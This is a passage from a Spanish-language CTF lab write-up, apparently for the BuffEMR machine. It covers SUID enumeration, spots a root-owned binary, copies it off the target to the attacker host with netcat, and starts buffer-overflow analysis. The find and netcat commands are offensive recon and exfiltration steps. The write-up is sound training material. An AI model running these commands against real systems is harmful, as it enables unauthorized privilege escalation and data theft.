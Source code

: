 El usuario **buffemr** no puede ejecutar sudo.

## Archivos SUID

Busco archivos SUID como el usuario **buffemr**

```bash
buffemr@buffemr:~$ find / -perm -4000 2>/dev/null | grep -vE "snap|lib"
/usr/bin/chfn
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/traceroute6.iputils
/usr/bin/arping
/usr/bin/chsh
/usr/bin/pkexec
/usr/bin/newgrp
/usr/bin/sudo
/usr/sbin/pppd
/bin/fusermount
/bin/mount
/bin/su
/bin/ping
/bin/umount
/opt/dontexecute
```

Me encuentro el archivo **/opt/dontexecute** que puede ser ejecutado como **root** ya que el es el propietario del mismo


Me lo paso a mi maquina con netcat para analizarlo

```bash
nc -lnvp 1234 > dontexecute
listening on [any] 1234 ...
connect to [192.168.0.36] from (UNKNOWN) [192.168.0.219] 35686

buffemr@buffemr:/opt$ nc -w 3 192.168.0.36 1234 < dontexecute

```

# BUFFER OVERFLOW

## Compilado para 32 bit

Con **file** veo que el archivo esta compilado para 32 bits

```bash
❯ file dontexecute | tr ',' '\n'
dontexecute: ELF 32-bit LSB pie executable
 Intel 80386
 version 1 (SYSV)
 dynamically linked
 interpreter /lib/ld-linux.so.2
 for GNU/Linux 3.2.0
 BuildID[sha1]=3c8287c844acebae4ece08e8c7eefc341e8972e4
 not stripped
```
